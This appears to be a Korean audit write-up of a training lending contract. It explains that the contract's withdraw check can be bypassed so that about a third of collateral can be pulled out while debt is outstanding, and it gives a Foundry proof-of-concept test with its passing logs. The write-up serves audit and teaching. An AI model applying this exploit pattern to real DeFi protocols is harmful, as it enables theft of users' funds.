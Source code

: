 우선 ETH를 withdraw하는 경우에는 두가지 경우가 있는데 대출이 없을 경우 collateral을 확인하지 않고 바로 transfer를 보낸다. 하지만 nonReentrant 모디파이어가 있기 때문에 re-entranacy공격은 불가능하고, deposit한것보다 더 많이 withdraw하려고 하면 **userBalances[msg.sender].collateral -= amount; 에서 arithmetic underflow가 발생한다.**

dept가 있을 경우에는 require구문으로  담보의 가치를 확인하는데, 이전에도 그랬듯이 현재의 가격만을 고려하기 때문에 require문도 우회가 가능하다.

![Untitled](%E1%84%80%E1%85%B5%E1%86%B7%E1%84%8B%E1%85%A7%E1%86%BC%E1%84%8B%E1%85%AE%E1%86%AB%20c2b3bd0b179e4c438d76beb10562ab48/Untitled%201.png)

빚이 있는 상황에서 withdraw를 할 시 require구문을 풀어보면 위와 같이 나온다.

결론적으로 담보의 거의 1/3만큼은 그냥 빼내올 수 있다.

### PoC

```solidity
function testWithdraw() external {
        dreamOracle.setPrice(address(0x0), 4000 ether);
        dreamOracle.setPrice(address(usdc), 1 ether);
        (bool success,) = address(lending).call{value: 10000 ether}(
            abi.encodeWithSelector(DreamAcademyLending.deposit.selector, address(0x0), 10000 ether)
        );
        lending.deposit(address(usdc), 1000000 ether);

        vm.deal(user1, 100000000 ether);
        vm.startPrank(user1);
        console.log("Before Deposit ETH: %d", user1.balance);
        (success,) = address(lending).call{value: 20 ether}(
            abi.encodeWithSelector(DreamAcademyLending.deposit.selector, address(0x0), 20 ether)
        );
        
        lending.borrow(address(usdc), 40000 ether);
        console.log("Before Withdraw After Borrow ETH: %d", user1.balance);
        console.log("Before Withdraw After Borrow USDC: %d", usdc.balanceOf(user1));
        
        uint amount = uint(20 * 10 ** 18) / 3 - 1;
        lending.withdraw(address(0x0), amount);
        console.log("After Withdraw ETH: %d", user1.balance);
        console.log("After Withdraw USDC: %d", usdc.balanceOf(user1));
        vm.stopPrank();
    }
```

```solidity
[PASS] testWithdraw() (gas: 326655)
Logs:
  Before Deposit ETH: 100000000000000000000000000
  maxBorrow: 40000000000000000000000
  maxBorrowAddress: 40000000000000000000000
  Before Withdraw After Borrow ETH: 99999980000000000000000000
  Before Withdraw After Borrow USDC: 40000000000000000000000
  After Withdraw ETH: 99999986666666666666666665
  After Withdraw USDC: 40000000000000000000000
```

![Untitled](%E1%84%80%E1%85%B5%E1%86%B7%E1%84%8B%E1%85%A7%E1%86%BC%E1%84%8B%E1%85%AE%E1%86%AB%20c2b3bd0b179e4c438d76beb10562ab48/Untitled%202.png)
